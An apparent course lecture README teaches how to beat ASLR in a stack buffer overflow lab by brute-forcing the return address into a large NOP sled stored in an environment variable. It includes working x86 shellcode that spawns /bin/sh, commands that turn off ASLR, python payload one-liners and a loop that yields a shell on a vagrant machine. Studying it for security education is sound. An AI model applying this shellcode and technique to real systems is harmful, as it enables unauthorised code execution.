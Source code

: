 # Shellcode injection with ASLR

In the previous [Lecture](../Lecture2/README.md) I talked about, injection of
shell code when the ASLR was disabled. ASLR allows randomization of
different segment address. So it's not very trivial to identify the buffer address. The address of buffer keep on changing with every run of the program. So when the return address points to the buffer address (that keeps on changing), putting the executable shell code in memory is not so easy.

To disable ALSR,
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`
To enable the same,
`echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space`

#### Scenario 1: With `nop - \x90` sled.
Suppose I appended few `nop` (no operation instruction) before the shellcode.

#### NOP
> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is an assembly language instruction, programming language statement, or computer protocol command that does nothing.

Lets say I added 20 `nop` before the shellcode.
`python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print "\x90"*20+shellcode+"\x90"*(bufferlen-len(shellcode)-20)+"BBBB"+struct.pack("<I", starting address of the buffer)'`
And make return address point to any of the **21** locations, from the staerting address of the buffer to the starting address of the shellcode ( address of buffer + 20), then I will spawn the shell indeed. But **what is the probability?** That return address(which is nothing but buffer address) will end up in any of those locations. The higher the probability, higher are the chances for exploitation.

The starting address of buffer would be `0xff_ _ _ _ _ _ _` in which the first `0xff` is fixed, because the buffer will lie in the upper portion of memory.
To test this, create a simple C program:
```C
int main()
{
    int a;
    printf("%p\n", &a);
    return 0;
}
```
Compile and run this program for say 10 runs.
```bash
$ for i in {1..10};do ./a.out;done
0xffe918bc
0xffdc367c
0xffeaf37c
0xffc31ddc
0xffc6a56c
0xffbcf9bc
0xffbcf02c
0xffbf1dcc
0xfffe386c
0xff9547cc
```
The observation is same what we have assumed. You can test the programs for more trials in case you are not convinced.
It seems that every time the variable is loaded at different addresses in the stack. The address can be represented as 0xffXXXXXc(where X is any hexadecimal digit). With some more testing, it can be seen that even the last half-byte(‘c’ over here) depends on the relative location of the variable inside the program. So in general, the address of a variable on the stack is 0xffXXXXXX. This amounts to 16^6 = 16777216 possible cases. It can be easily seen that the earlier method, mentioned above to exploit the stack, will now work with only 21/16777216 probability(21 is the length of NOP slide, if any of those NOP bytes happens to be where the modified return address is, the shellcode will be executed).
That means on an average, 1 in ~ 40K runs, the shellcode will be executed. This is way less. In any way we got he hint that somehow we need to increase the length of the `nop` sled on the buffer, but the buffer length is limited. Increasing the size of `nop` will increase the chances of shellcode to run. But How?

Why not take the help of **environment variable**?

#### Scenario 2: Putting long shellcode in env variable
In my vagrant system, I can make the environment variable way long the size of the buffer. My system allows the environment variable to be of length 100K. The reason we are picking the environment variable is that, they are itself loaded just above the stack.
Lets create environment variable, say `SHELLCODE`.
`export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
`
And instead of putting the return address to starting address of the buffer, I will put the return address to any of the randomly picked higher memory address. Lets say any address in between highest address `0xffffffff` and `0xff9547cc`. I am picking `0xff882222`.

`$ for i in {1..100}; do ./exploit_me_3 $(python -c 'import struct;print "A"*112 + struct.pack("<I", 0xff882222)'); done`

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$whoami
vagrant
```

After few attempts, we got the shell. :cool: isn't it !!

